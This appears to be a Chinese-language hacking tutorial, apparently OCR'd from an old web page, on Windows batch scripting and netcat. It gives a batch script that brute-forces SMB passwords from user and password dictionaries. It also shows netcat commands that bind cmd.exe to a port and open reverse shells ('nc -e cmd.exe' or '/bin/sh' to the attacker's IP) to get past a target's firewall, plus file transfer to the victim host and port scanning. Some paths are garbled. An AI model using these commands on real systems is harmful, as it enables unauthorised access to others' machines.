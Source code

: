 echo 用法格式：ok.bat ip 
FOR /F %%i IN (D:\user.dic) DO smb.exe %1 %%i D:\pass.dic 200 
存为：ok.exe 说明：输入一个IP后，用字典文件d:\pass.dic来暴解d:\user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。 
2：if命令及变量 基本格式： 
IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为"真"。
例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。
0 指发现并成功执行（真）；1 指没有发现、没执行（假）。 
IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
例："if "%2%"=="4" goto start"指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "） 
IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
例："if not nc.exe goto end"指：如果没有发现nc.exe文件就跳到":end"标签处。

IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。
当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如："if exist test.txt. else echo test.txt.missing "，注意命令中的"."

（二）系统外部命令(均需下载相关工具)：
1、瑞士军刀：nc.exe
参数说明： 
-h 查看帮助信息 
-d 后台模式 
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名 
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时） 
基本用法： 
nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口 
nc -l -p 80 开启本机的TCP 80端口并监听 
nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口 
nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口 
nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口 
高级用法： 
nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
nc -L -p 80 > c:\log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:\log.txt 
nc -L -p 80 < c:\honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中，亦可起到传送文件作用 
type.exe c:\honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中,亦可起到传送文件作用 
本机上用：nc -l -p 本机端口 
在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙 
本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称 
在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机 
备 注： 
| 管道命令 
< 或 > 重定向命令。"<"，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令 
＠ 表示执行＠后面的命令，但不会显示出来（后台执行）；例：＠dir c:\winnt >> d:\log.txt 意思是：后台执行dir，并把结果存在d:\log.txt中 
>与>>的区别 　">"指：覆盖；">>"指：保存到(添加到）。
如：@dir c:\winnt >> d:\log.txt和@dir c:\winnt > d:\log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
#8 八：
2、扫锚工具：xscan.exe
基本格式 
xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息 
xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息 